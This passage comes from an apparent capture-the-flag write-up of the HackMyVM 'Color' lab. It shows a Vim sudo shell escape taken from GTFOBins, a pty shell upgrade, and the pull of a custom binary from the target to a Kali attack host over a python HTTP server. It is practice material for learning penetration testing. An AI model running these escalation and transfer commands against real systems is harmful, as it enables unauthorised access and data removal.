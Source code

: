 We can use [this payload on GTFOBin](https://gtfobins.github.io/gtfobins/vim/#sudo) to spawn a shell with Vim.
```bash
www-data@color:/var/www/html$ sudo -u green /usr/bin/vim  -c ':!/bin/sh'

$ python3 -c 'import pty;pty.spawn("/bin/bash")'
green@color:/var/www/html$ 
```

The green user's home directory contains an interesting message and a binary. This message indicates that the user green will obtain purple's password if the test is completed successfully.
```bash
green@color:~$ ls -l
total 24
-rw-r--r-- 1 root root   145 Feb 11  2023 note.txt
-rwxr-xr-x 1 root root 16928 Feb 11  2023 test_4_green

green@color:~$ file test_4_green 
test_4_green: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=9496189c225509b7a26fbf1a874b3edeb9be0859, for GNU/Linux 3.2.0, not stripped

green@color:~$ cat note.txt 
You've been working very well lately Green, so I'm going to give you one last test. If you pass it I'll give you the password for purple.

-root
```

This is a custom binary so, let's transfer it to our attack host for analysis.
```bash
green@color:~$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Color/Misc File]
└─$ wget http://10.0.2.28:8000/test_4_green   
--2024-09-26 06:16:52--  http://10.0.2.28:8000/test_4_green
<SNIP>

test_4_green                                    100%[====================================================================================================>]  16.53K  19.5KB/s    in 0.8s    

2024-09-26 06:16:53 (19.5 KB/s) - ‘test_4_green’ saved [16928/16928]
```

Now that we have the binary on our attack host, we can open it in the cutter to decompile the code into a human-readable format.
